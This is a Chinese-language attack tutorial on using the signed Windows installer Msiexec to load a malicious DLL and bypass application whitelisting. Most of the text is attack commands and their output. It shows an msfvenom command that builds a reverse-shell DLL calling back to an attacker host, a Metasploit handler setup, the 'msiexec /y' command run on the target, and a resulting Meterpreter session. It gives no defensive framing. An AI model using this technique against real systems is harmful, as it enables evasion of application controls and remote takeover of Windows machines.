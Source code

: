 ### 11.16 基于白名单Msiexec执行payload（八）补充

本季补充本地DLL加载

**Msiexec简介：**

Msiexec是Windows Installer的一部分。用于安装Windows Installer安装包（MSI）,一般在运行Microsoft Update安装更新或安装部分软件的时候出现，占用内存比较大。并且集成于Windows 2003，Windows 7等。

说明：Msiexec.exe所在路径已被系统添加PATH环境变量中，因此，Msiexec命令可识别。

**基于白名单Msiexec.exe配置payload：**-
注：x64 payload

    msfvenom ‐p windows/x64/shell/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐ f dll > Micropoor_rev_x64_53.dll
    
        

**配置攻击机msf：**

注：x64 payload

    msf exploit(multi/handler) > show options 
    
    Module options (exploit/multi/handler): 
    
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 
    
    Payload options (windows/x64/meterpreter/reverse_tcp): 
    
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
    EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process,none)
    
    LHOST 192.168.1.4 yes The listen address (an interface may be specified)
    
    LPORT 53 yes The listen port
    
    Exploit target: 
    
    Id Name
    ‐‐ ‐‐‐‐
    0 Wildcard Target 
    
    msf exploit(multi/handler) > exploit 
    
    [*] Started reverse TCP handler on 192.168.1.4:53
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010232035944.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
靶机执行：

    msiexec /y C:\Users\John\Desktop\Micropoor_rev_x64_dll.dll
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010232254256.png%23pic_center)

    msf exploit(multi/handler) > exploit 
    
    [*] Started reverse TCP handler on 192.168.1.4:53
    
    [*] Sending stage (206403 bytes) to 192.168.1.5
    
    [*] Meterpreter session 26 opened (192.168.1.4:53 ‐> 192.168.1.5:11543)
    at 2019‐01‐20 09:45:51 ‐0500
    
    meterpreter > getuid
    
    Server username: John‐PC\John
    
    meterpreter > getpid
    
    Current pid: 7672
    
    meterpreter >
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010232309608.png%23pic_center)

* * *